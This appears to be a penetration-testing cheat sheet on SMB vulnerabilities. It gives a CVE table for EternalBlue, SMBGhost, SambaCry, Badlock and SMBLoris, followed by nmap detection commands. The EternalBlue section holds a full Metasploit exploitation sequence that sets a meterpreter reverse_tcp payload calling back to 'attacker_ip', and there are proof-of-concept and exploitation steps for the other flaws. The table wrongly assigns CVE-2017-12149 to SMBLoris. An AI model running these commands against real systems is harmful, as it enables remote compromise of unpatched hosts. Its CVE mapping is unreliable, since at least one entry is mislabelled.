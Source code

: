 ## Common Vulnerabilities

### Critical SMB CVEs

| CVE | Name | Impact | Affected Versions |
|-----|------|--------|------------------|
| **CVE-2017-0144** | EternalBlue | Remote Code Execution | Windows Vista - Windows 10, Server 2008-2016 |
| **CVE-2020-0796** | SMBGhost (CoronaBlue) | Remote Code Execution | Windows 10 v1903/v1909, Server v1903/v1909 |
| **CVE-2017-7494** | SambaCry | Remote Code Execution | Samba 3.5.0 - 4.6.4/4.5.10/4.4.14 |
| **CVE-2016-2118** | Badlock | Man-in-the-Middle | Windows/Samba NTLM authentication |
| **CVE-2017-12149** | SMBLoris | Denial of Service | Windows SMB implementations |

### EternalBlue (CVE-2017-0144)
```bash
# Nmap EternalBlue detection
nmap -p445 --script smb-vuln-ms17-010 target

# Metasploit exploitation
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target
set payload windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip
exploit

# Manual verification
python checker.py target 445
```

### SMBGhost (CVE-2020-0796)
```bash
# Detection script
nmap -p445 --script smb-vuln-cve2020-0796 target

# Proof of concept
python3 cve-2020-0796.py target

# Metasploit module
use auxiliary/scanner/smb/smb_ms20_004
set RHOSTS target
run
```

### SambaCry (CVE-2017-7494)
```bash
# Vulnerability detection
nmap -p445 --script smb-vuln-cve2017-7494 target

# Manual check
smbclient //target/share -N
smb: \> allinfo /path/to/shared/library.so

# Exploitation requirements:
# - Samba version 3.5.0+
# - File upload to SMB share
# - Knowledge of share path on server
```
